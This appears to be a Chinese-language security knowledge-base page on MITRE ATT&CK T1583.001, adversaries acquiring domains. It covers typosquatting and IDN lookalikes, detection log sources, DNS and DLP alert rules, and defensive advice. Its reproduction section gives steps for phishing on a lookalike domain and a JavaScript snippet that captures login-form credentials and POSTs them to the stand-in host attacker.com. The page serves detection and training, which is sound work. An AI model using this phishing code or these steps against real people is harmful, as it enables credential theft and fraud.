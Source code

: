 # T1583-001-获取基础设施-域名

## 描述
攻击者在入侵目标组织之前，可能购买或注册域名以支持目标定位和攻击执行。域名是人类可读的名称，用于表示一个或多个IP地址，可通过域名注册商购买或在某些情况下免费获得。攻击者可能利用这些域名开展多种恶意活动，例如网络钓鱼（T1566）、路过式下载（T1189）、命令与控制（T1102）或恶意软件分发。

攻击者可能采取以下策略获取和使用域名：
- **相似域名伪造**：注册与合法域名相似的域名（如错别字域名、同形异义字或不同顶级域名TLD），用于钓鱼或欺骗。
- **国际化域名（IDN）**：利用Unicode字符创建外观相似的域名，混淆用户。
- **私有WHOIS服务**：使用隐私保护服务隐藏域名注册信息，增加追踪难度。
- **分散注册**：通过多个注册商和不同注册信息购买域名，掩盖基础设施关联性。
- **抢注域名**：抢注过期或即将过期的域名，用于恶意活动。

收集到的域名基础设施可能为后续攻击提供支持，例如通过钓鱼实现初始访问、建立命令与控制通道或分发恶意载荷。

## 测试案例
以下是模拟攻击者获取和使用域名的常见方法和案例：
- **相似域名注册**：
  - 注册类似目标组织的域名（如`meituam.cn`伪装`meituan.com`），用于钓鱼。
  - 示例：攻击者注册`app1e.com`（使用数字“1”替代字母“l”）冒充`apple.com`，诱导用户输入凭据。
- **私有WHOIS**：
  - 使用隐私保护服务（如WhoisGuard、Privacy.com）隐藏注册信息。
- **钓鱼网站搭建**：
  - 在伪造域名上部署钓鱼页面，模仿目标组织的登录界面。
  - 示例：参考案例 <https://www.sohu.com/a/452671903_648183>，不法分子搭建`www.meituam.cn`，通过短信诱导商户输入个人信息和缴费，涉案金额80余万元。
- **国际化域名（IDN）**：
  - 注册类似`xn--pple-4ua.com`（显示为`äpple.com`）的IDN域名，欺骗用户。
- **工具支持**：
  - 使用GoDaddy、Namecheap等注册商购买域名。
  - 使用自动化工具（如DomainTools）查询目标相关域名，寻找可抢注的过期域名。
- **案例场景**：
  - 攻击者注册`target-corp-login.com`，搭建伪装的员工登录页面，通过钓鱼邮件分发链接，窃取凭据。
  - 在电商平台冒充Apple服务，注册`app1e-support.com`，诱导用户输入账户密码，实现“软解密”欺诈。

## 检测日志
域名获取活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **DNS日志**：
  - 检测异常的DNS查询，可能与伪造域名或IDN相关。
- **邮件服务器日志**：
  - 监控钓鱼邮件，可能包含伪造域名的恶意链接。
- **Web服务器日志**：
  - 记录访问伪造域名的异常HTTP请求。
- **威胁情报日志**：
  - 记录与已知恶意域名或注册商相关的活动。

## 测试复现
以下是模拟攻击者获取域名的步骤：
1. **环境准备**：
   - 选择目标组织（如`target.com`），分析其域名结构。
   - 准备测试环境，确保在授权范围内操作。
2. **域名注册**：
   - 使用Namecheap或GoDaddy注册类似域名（如`target-corp.com`）。
   - 启用WHOIS隐私保护服务，隐藏注册信息。
3. **钓鱼页面搭建**：
   - 在注册的域名上部署伪装的登录页面，使用HTML模板模仿目标网站。
   - 嵌入JavaScript收集用户凭据：
     ```javascript
     document.getElementById('login-form').addEventListener('submit', function(e) {
         e.preventDefault();
         var data = {
             username: document.getElementById('username').value,
             password: document.getElementById('password').value
         };
         fetch('http://attacker.com/collect', {
             method: 'POST',
             body: JSON.stringify(data)
         });
     });
     ```
4. **分发钓鱼链接**：
   - 通过邮件或社交媒体发送伪造域名链接，诱导用户访问。
5. **结果分析**：
   - 收集捕获的凭据，分析钓鱼效果。
6. **日志收集**：
   - 收集DNS、邮件和Web服务器日志，验证伪造域名的使用痕迹。

## 测试留痕
域名获取和使用可能留下以下痕迹：
- **DNS查询**：异常的DNS解析请求，涉及伪造域名或IDN。
- **邮件服务器日志**：钓鱼邮件中包含伪造域名的链接。
- **Web服务器日志**：访问伪造域名的HTTP请求，或异常的404/403响应。
- **威胁情报**：已知恶意域名的注册信息或IP关联。

## 检测规则/思路
由于域名获取活动多发生在目标组织视野之外，检测需结合多种手段：
- **DNS监控**：
  - 检测异常DNS查询，重点关注与目标域名相似的伪造域名。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Similar Domains
    Condition: DNS query contains "target" AND NOT "target.com"
    Action: Alert
    ```
- **邮件监控**：
  - 使用DLP（数据丢失防护）工具检测钓鱼邮件，重点检查包含伪造域名的链接。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Domains
    Condition: Email contains "http" AND NOT "target.com"
    Action: Alert
    ```
- **WHOIS查询**：
  - 使用DomainTools或ICANN Lookup监控与目标域名相似的注册活动。
  - 示例：查询`*.target*`的WHOIS记录，检测错别字域名。
- **威胁情报整合**：
  - 结合威胁情报平台（如微步在线、奇安信），识别已知的恶意域名或注册商。
  - 监控Pastebin或暗网论坛，检查是否出现与目标相关的伪造域名。
- **日志关联**：
  - 使用SIEM（如Splunk、ELK）关联DNS、邮件和Web日志，检测伪造域名的使用模式。

## 建议
- **减少暴露面**：
  - 注册与组织域名相似的防御性域名，防止错别字域名攻击。
  - 使用WHOIS隐私保护服务，隐藏合法域名的注册信息。
- **安全意识培训**：
  - 对员工进行钓鱼防御培训，警惕伪造域名的恶意链接。
  - 教育员工验证域名真实性，避免访问可疑网站。
- **安全加固**：
  - 配置DNS防火墙（如Cloudflare Gateway）拦截伪造域名查询。
  - 实施MFA（多因素认证）保护与域名相关的账户。
  - 使用WAF保护合法网站，拦截异常流量。
- **主动监控与响应**：
  - 使用DomainTools或WhoisXML API定期监控新注册的相似域名。
  - 部署Google Alerts，监控与组织相关的伪造域名提及。
  - 使用威胁狩猎（Threat Hunting）技术，主动搜索可能的域名滥用活动。
- **后续阶段检测**：
  - 重点监控攻击者生命周期的后续阶段（如初始访问T1566、命令与控制T1102），通过异常流量或钓鱼行为间接发现域名获取活动。

## 参考资料
- MITRE ATT&CK: T1583-001  
  <https://attack.mitre.org/techniques/T1583/001/>
- 不法分子高仿某外卖平台网站，入驻商户遭遇“钓鱼攻击”  
  <https://www.sohu.com/a/452671903_648183>
- 全流程信息收集方法总结  
  <https://www.freebuf.com/articles/database/195169.html>